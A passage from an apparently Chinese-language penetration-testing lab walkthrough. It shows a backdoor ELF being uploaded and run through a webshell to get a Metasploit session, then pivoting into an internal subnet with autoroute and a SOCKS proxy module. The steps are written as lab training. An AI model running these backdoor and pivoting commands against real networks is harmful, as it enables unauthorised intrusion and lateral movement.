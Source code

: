 ##### 上传后门、执行后门

通过蚁剑上传后门、执行后门

```shell
chmod +x t1.elf
./t1.elf
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-40.png)

此时接收到会话

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-41.png)

##### 信息收集及配置访问

由于测试环境是我们自己准备的，所以我们知道target2主机的网段及IP地址。但是在实战中，我们应该是未知的，因此我们需要首先进行信息收集，以获得目标target2的相关信息，为进一步的渗透做准备。

##### 获取网络接口

`run get_local_subnets` 

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-42.png)

这里target1存在3个网络接口，一个122、一个80，一个22，80与kali同一网段，是连接外网的，那22就是连接内网（局域网），其实刚才已经收集到这些信息。（122这里不清楚具体是干什么的，可能是前人的配置，毕竟实验环境是在网上找的。）

##### 查看路由地址

`run autoroute -p` 

发现路由表是空的。我们需要添加路由地址

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-43.png)

##### 添加路由地址

`run autoroute -s 192.168.22.0/24`

并且查看路由表，已更新。

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-44.png)

​	添加路由地址成功，说明在刚才反弹的session1会话上，我们添加了一个22网段的网络接口。此时我们就可以通过这个路由跟22网段进行通讯了。虽然能够通讯了，但是我们的目标是攻击target2，要攻击就需要使用到工具，由于路由是写到了msf建立的会话上面，有些工具没法用。此时我们就需要开一个代理，开这个代理就相当于开一个接口给其他人用。

##### 开启本地代理

```shell
use auxiliary/server/socks_proxy
set version 4a
set srvport 2222
exploit
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/70-45.png)
